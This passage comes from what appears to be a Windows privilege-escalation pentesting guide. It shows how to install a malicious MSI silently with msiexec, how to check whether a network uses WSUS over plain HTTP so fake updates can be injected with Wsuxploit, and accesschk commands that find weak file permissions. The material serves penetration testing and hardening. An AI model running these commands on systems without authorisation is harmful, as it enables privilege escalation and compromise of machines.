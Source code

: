 ### MSI Wrapper

Read this tutorial to learn how to create a MSI wrapper using this tools:

{% page-ref page="msi-wrapper.md" %}

### MSI Installation

To execute the **installation** of the **malicious `.msi`** file in **background:**

```text
msiexec /quiet /qn /i C:\Users\Steve.INFERNO\Downloads\alwe.msi
```

To exploit this vulnerability you can use: _exploit/windows/local/always\_install\_elevated_

## WSUS

You can compromise the system if the updates are not requested using http**S** but http.

You start by checking if the network uses a non-SSL WSUS update by running the following:

```text
reg query HKLM\Software\Policies\Microsoft\Windows\WindowsUpdate /v WUServer
```

If you get a reply such as:

```bash
HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\WindowsUpdate
      WUServer    REG_SZ    http://xxxx-updxx.corp.internal.com:8535
```

And if `HKLM\Software\Policies\Microsoft\Windows\WindowsUpdate\AU /v UseWUServer` is equals to 1.

Then, **it is exploitable.** If the last registry is equals to 0, then, the WSUS entry will be ignored.

You can use: [Wsuxploit](https://github.com/pimps/wsuxploit) - This is a MiTM weaponized exploit script to inject 'fake' updates into non-SSL WSUS traffic.

{% file src="../../.gitbook/assets/ctx\_wsuspect\_white\_paper \(1\).pdf" %}

## Write Permissions

Check if you can modify some config file to read some special file or if you can modify some binary that is going to be executed by an Administrator account \(schedtasks\).

A way to find weak folder/files permissions in the system is doing:

```bash
accesschk.exe /accepteula 
# Find all weak folder permissions per drive.
accesschk.exe -uwdqs Users c:\
accesschk.exe -uwdqs "Authenticated Users" c:\
accesschk.exe -uwdqs "Everyone" c:\
# Find all weak file permissions per drive.
accesschk.exe -uwqs Users c:\*.*
accesschk.exe -uwqs "Authenticated Users" c:\*.*
accesschk.exe -uwdqs "Everyone" c:\*.*
```
